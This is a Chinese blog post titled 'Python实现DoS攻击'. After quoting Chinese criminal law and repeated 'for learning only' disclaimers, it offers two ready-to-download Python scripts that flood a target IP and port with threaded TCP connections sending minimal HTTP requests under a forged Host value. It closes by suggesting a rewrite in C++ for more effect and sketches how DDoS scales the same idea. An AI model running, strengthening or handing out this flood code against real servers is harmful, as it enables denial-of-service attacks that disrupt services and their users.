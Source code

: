 ```yaml
---
title: Python实现DoS攻击
toc: true
date: 2021-08-03 11:06:55
categories: Coding
tags:
    - Python
    - Socket
---
```


# 引子

**一切开发旨在学习，请勿用于非法用途**

<!-- more -->

> **《中华人民共和国刑法》第二百八十六条 破坏计算机信息系统罪**：  
> 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行  
> 后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。  
> 违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，果严重的，依照前款的规定处罚。  
> 故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。  
> 单位犯前三款罪的，对单位判处罚金，并对其直接负责的主管人员和其他直接责任人员，依照第一款的规定处罚。  

另：

> 在中华人民共和国最高人民法院与最高人民检察院 **《关于办理危害计算机信息系统安全刑事案件应用法律若干问题的解释》** 中，对破坏计算机信息系统的适用进行了明确：  
> 破坏计算机信息系统功能、数据或者应用程序，具有下列情形之一的，应当认定为刑法第二百八十六条第一款和第二款规定的“后果严重”：  
> （一）造成十台以上计算机信息系统的主要软件或者硬件不能正常运行的；  
> （二）对二十台以上计算机信息系统中存储、处理或者传输的数据进行删除、修改、增加操作的；  
> （三）违法所得五千元以上或者造成经济损失一万元以上的；  
> （四）造成为一百台以上计算机信息系统提供域名解析、身份认证、计费等基础服务或者为一万以上用户
> 供服务的计算机信息系统不能正常运行累计一小时以上的；  
> （五）造成其他严重后果的。  
> 实施前款规定行为，具有下列情形之一的，应当认定为破坏计算机信息系统“后果特别严重”：  
> （一）数量或者数额达到前款第（一）项至第（三）项规定标准五倍以上的；  
> （二）造成为五百台以上计算机信息系统提供域名解析、身份认证、计费等基础服务或者为五万以上用户
> 供服务的计算机信息系统不能正常运行累计一小时以上的；  
> （三）破坏国家机关或者金融、电信、交通、教育、医疗、能源等领域提供公共服务的计算机信息系统的
> 能、数据或者应用程序，致使生产、生活受到严重影响或者造成恶劣社会影响的；  
> （四）造成其他特别严重后果的。

**一切开发旨在学习，请勿用于非法用途**

# 通信原理

`socket`模拟客户端向目标服务器不断发送空请求。  
使用`threading`增加请求量，起到攻击的效果。

# 无计数版

显然，无计数版的攻击周期更短，但无法了解已经发出了多少请求。

[<i class="fas fa-download"></i>](dossilent.py) `下载dossilent.py` 下方的代码。

``` python Python 3
# 一切开发旨在学习，请勿用于非法用途

import socket
import threading

# 确认攻击目标
target = '127.0.0.1' # 攻击目标的 IP 地址
fake_ip = '223.30.81.143' # 随机生成的 IP 地址，用于伪装
port = 80 # 攻击目标的端口

def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port)) # 连接至服务器
        # 发送空请求
        s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        # 断开连接
        s.close()

for i in range(1): # 将 1 替换为你需要的线程数量
    thread = threading.Thread(target=attack)
    thread.start()
```

# 计数版

[<i class="fas fa-download"></i>](dos.py) `下载dos.py` 下方的代码。

``` python Python 3
# 一切开发旨在学习，请勿用于非法用途

import socket
import threading

# 确认攻击目标
target = '127.0.0.1' # 攻击目标的 IP 地址
fake_ip = '223.30.81.143' # 随机生成的 IP 地址，用于伪装
port = 80 # 攻击目标的端口

# 计数
attack_num = 0

def attack():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port)) # 连接至服务器
        # 发送空请求
        s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
        s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        # 计数模块
        global attack_num
        attack_num += 1
        print(attack_num)
        
        # 断开连接
        s.close()

for i in range(1): # 将 1 替换为你需要的线程数量
    thread = threading.Thread(target=attack)
    thread.start()
```

# 后话

由于Python拉跨的效率，实际上此处提供的程序仅能增加访问延迟，而不至于将服务器攻击崩溃。  
此处仅提供类似流程，若有能力可用其它高效率的语言（如`C++`）进行重写。  
DDoS与此相近，只需用大量的计算机同时向单一目标计算机发起DoS攻击即可。  
这东西玩玩就好了，打打自己的服务器看看效果就可以了，别太较真，高强度的DoS或DDoS攻击是违法的。  
拓展：[知乎：应对DDoS攻击的法律武器](https://zhuanlan.zhihu.com/p/109918158)
**一切开发旨在学习，请勿用于非法用途。**

